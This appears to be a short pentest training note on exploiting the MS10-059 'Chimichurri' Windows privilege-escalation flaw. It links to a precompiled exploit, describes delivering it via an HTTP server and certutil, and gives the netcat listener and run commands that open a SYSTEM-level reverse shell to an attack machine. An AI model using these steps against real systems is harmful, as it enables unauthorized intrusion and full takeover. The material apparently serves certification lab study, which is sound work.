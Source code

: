 # Vunerability description
This security update resolves one publicly disclosed vulnerability and one privately reported vulnerability in the Tracing Feature for Services.  
The vulnerabilities could allow elevation of privilege if an attacker runs a specially crafted application.  
An attacker must have valid logon credentials and be able to log on locally to exploit this vulnerability.  
The vulnerability could not be exploited remotely or by anonymous users.
# Precompiled payload
https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled
# Steps to exploit
1. Download file Chimichurri.exe
2. Create a simple HTTP file server to host it (see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
3. From victim's machine, get the file (using certutil -> see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
4. Run the file
Assumptions: Attack machine: 10.10.16.18 / already run nc -nvlp 5555
From Victim's machine: Chimichurri.exe 10.10.16.18 5555
From Attack machine - in the nc screen -> will see connection with system privilege.

